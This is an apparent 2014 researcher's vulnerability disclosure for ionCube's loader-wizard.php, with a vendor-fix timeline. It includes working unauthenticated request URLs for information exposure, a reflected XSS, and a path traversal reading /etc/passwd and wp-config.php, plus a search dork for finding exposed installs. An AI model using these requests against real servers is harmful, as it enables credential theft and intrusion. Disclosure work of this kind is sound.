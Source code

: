 +++
Description = "Multiple Vulnerabilities in ionCube Loader-wizard"
title = "Multiple Vulnerabilities in ionCube Loader-wizard"
date = "2014-03-30T12:00:00+01:00"

+++
In a recent security audit I spotted a file on the server which caught my attention: `loader-wizard.php`.

After calling the file via a Browser I noticed it's part of ionCubes encoding and [obfuscation](http://en.wikipedia.org/wiki/Obfuscation) software. The software can be found on [ionCubes Homepage](http://www.ioncube.com/php_encoder.php).

<!--more-->

The software compiles your php code into custom bytecode and performs some obfuscation on variable names, class names and so on. This way you can ship your php based product without revealing the original sourcecode. To teach the server how to interpret the encoded format you need to install a seperate ionCube php extension on your server which decrypts the php files at runtime. In my opinion the extra extension is a little bit too much because there can be some vulnerabilities in there too but it looks like many people are using it. The found file `loader-wizard.php` is a little helper script used to detect if the extension is loaded and guide you through the installation process.

The file itself contains many vulnerabilities which are all exploitable with no authentication.

The current loader-wizard.php file can be downloaded for free from [http://www.ioncube.com/loaders.php](http://www.ioncube.com/loaders.php). I only took a look at the loader-wizard.php script available from [http://www.ioncube.com/loader-wizard/loader-wizard.zip](http://www.ioncube.com/loader-wizard/loader-wizard.zip), but maybe someone wants to take a look at the installer script and the extension too.

Doing a quick search on Google using the dork [inurl:loader-wizard.php](https://www.google.com/search?q=inurl%3Aloader-wizard.php) reveals about 34,400 found files. Assuming no one links an installer script they are all found because directory indexing is active so there are probably much more scripts out there. I checked some of the search results with the "phpinfo vulnerability" described below, and all were vulnerable.

I tested the latest version of the loader available for download at the time of writing (2.42) and version 2.36 which is the one I found on the server. All reported vulnerabilities are present in both versions. You can determine the installed version by looking at the footer of the page.

The fixed version is 2.46. Some vulnerabilities like the phpinfo are not fixed because they represent the functionality of the script. Ioncube added a notice on top of every page to remove the file after successful installation.

# phpinfo exposure
When calling the page `phpinfo` the scripts executes `phpinfo()` and presents the contents.
```
http://server.com/loader-wizard.php?page=phpinfo
```

![phpinfo](/img/ioncube/phpinfo.png "phpinfo")

# php.ini exposure
When calling the page `phpconfig` the scripts reads your `php.ini` settings file and prints out all the contents.

```
http://server.com/loader-wizard.php?page=phpconfig
```

![phpconfig](/img/ioncube/phpconfig.png "phpconfig")

# extra information
When calling the page `extra` the scripts outputs some additional informations about the server.

```
http://server.com/loader-wizard.php?page=extra
```

![extra](/img/ioncube/extra.png "extra")

# Download configs as zipped file
When calling the page `system_info_archive` it's possible to download a zip file containing a copy of the `php.ini`, `phpinfo()` output and the extra informations printed on the `extra` page.

```
http://server.com/loader-wizard.php?page=system_info_archive
```

![archive](/img/ioncube/system_info_archive.png "archive")

# reflected XSS
The script uses the PHP variable `$self` in various places. It's possible to inject script code in the script name and thus the script is vulnerable to reflected cross site scripting.

```
http://server.com/loader-wizard.php/%3Cxss%3E
```

The string `<xss>` is printed out unescaped 10 times.

```html
<link rel="stylesheet" type="text/css" href="/loader-wizard.php/<xss>?page=css">
setTimeout("window.location.href = '/loader-wizard.php/<xss>?page=default&amp;timeout=1'",1000);
window.location.href = '/loader-wizard.php/<xss>?page=default';
xmlHttp.open("GET","/loader-wizard.php/<xss>?page=loaderversion",true);
xmlHttp.open("GET","/loader-wizard.php/<xss>?page=platforminfo",true);
xmlHttp.open("GET","/loader-wizard.php/<xss>?page=compilerversion",true);
xmlHttp.open("GET","/loader-wizard.php/<xss>?page=wizardversion",true);
setTimeout("window.location.href = '/loader-wizard.php/<xss>?page=default&amp;timeout=1'",1000);
<a href="/loader-wizard.php/<xss>?page=default">
<a href="/loader-wizard.php/<xss>?page=default&amp;timeout=1">
```

![xss](/img/ioncube/xss.png "xss")

# Get arbitrary file on server
The page `phpconfig` can be abused to download arbitrary files the webserver has access to.

```
http://server.com/loader-wizard.php?page=phpconfig&ininame=../../../../../../../var/www/wordpress/wp-config.php&download=1
```

```
http://server.com/loader-wizard.php?page=phpconfig&ininame=../../../../../../../etc/passwd&download=1
```

![file](/img/ioncube/file.png "file")

## Vulnerable code

You can see you need to set the `download` parameter to supply an own `ininame`. On line 30 the filepath is constructed without sanitizing the filename.

```php
function phpconfig_page()
{
    info_disabled_check();
    $sys = get_sysinfo();
    $download = get_request_parameter('download');
    $ini_file_name = '';
    if (!empty($download)) {
        $ini_file_name = get_request_parameter('ininame');
        if (empty($ini_file_name)) {
            $ini_file_name = ini_file_name();
        }
        header('Content-Type: text/plain');
        header('Content-Disposition: attachment; filename=' . $ini_file_name);
    } else {
        header('Content-Type: text/plain');
    }
    $exclude_original = get_request_parameter('newlinesonly');
    $prepend = get_request_parameter('prepend');
    $stype = get_request_parameter('stype');
    $server_type = find_server_type($stype);
    if (!empty($exclude_original) || !empty($prepend)) {
        $loader_dir = loader_install_dir($server_type);
        $zend_lines = zend_extension_lines($loader_dir);
        echo join(PHP_EOL,$zend_lines);
        echo PHP_EOL;
    }
    if (empty($ini_file_name) || empty($sys['PHP_INI_DIR']) || ($sys['PHP_INI_BASENAME'] == $ini_file_name)) {
        $original_ini_file = isset($sys['PHP_INI'])?$sys['PHP_INI']:'';
    } else {
        $original_ini_file = $sys['PHP_INI_DIR'] . DIRECTORY_SEPARATOR . $ini_file_name;
    }
    if (empty($exclude_original) && !empty($original_ini_file) && @file_exists($original_ini_file)) {
        if (!empty($download)) {
            @readfile($original_ini_file);
        } else {
            echo all_ini_contents();
        }
    }
}
```

# Timeline
02.03.2014 - Contacted Vendor

02.03.2014 - Response from vendor, will be fixed asap

04.03.2014 - Fixed version released (2.46)

30.03.2014 - Blog post published
